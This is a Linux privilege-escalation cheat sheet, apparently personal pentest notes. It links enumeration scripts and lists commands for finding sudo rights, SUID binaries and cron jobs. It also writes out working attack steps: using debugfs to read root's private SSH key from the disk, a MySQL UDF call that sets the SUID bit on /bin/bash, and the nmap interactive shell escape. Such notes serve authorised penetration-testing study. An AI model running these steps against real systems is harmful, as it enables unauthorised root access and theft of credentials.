 # LINUX

  
## For more of the manual enumeration steps;

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation

## Firstly, you can run the script below. It is important that you read the output of this script.

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

  

## Kernel and OS
```bash
uname -a

cat /etc/issue

cat /etc/redhat-release //Redhat

cat /etc/lsb-release //Debian
```
  

## Misconfiguration sudo;
```
sudo -l

sudo -u scriptmanager bash //Change user with "sudo" command
```

## Detection of programs with SUID bits;
```
find / -perm +4000 -user root -type f -print 2>/dev/null
```
  

## Scheduled jobs;
```
crontab -l

cat /etc/crontab
```
## Detection of services run by root;
```
ps aux | grep root
```
## Detection of installed applications;
```
ls -alh /usr/bin/

ls -alh /sbin/

dpkg -l
```


 
## We can use debugfs to enumerate the entire disk with effectively root level privileges.

  

```bash

kali@kali:~$ debugfs /dev/sda1

debugfs 1.42.13 (17-May-2015)

debugfs: cd /root

debugfs: ls

debugfs: cd .ssh

debugfs: ls

debugfs: cat id_rsa

  

```

  




### sql udf

  

https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/

  

Extremely well written, made it a piece of cake to get root..

  
```
mysql> use mysql;

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

mysql> select sys_exec('chmod u+s /bin/bash');
```
  
  

## nmap 3.81  Suid bit

```
nmap --interactive

nmap --interactive

  

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )

Welcome to Interactive Mode -- press h <enter> for help

nmap> !whoami
```




  
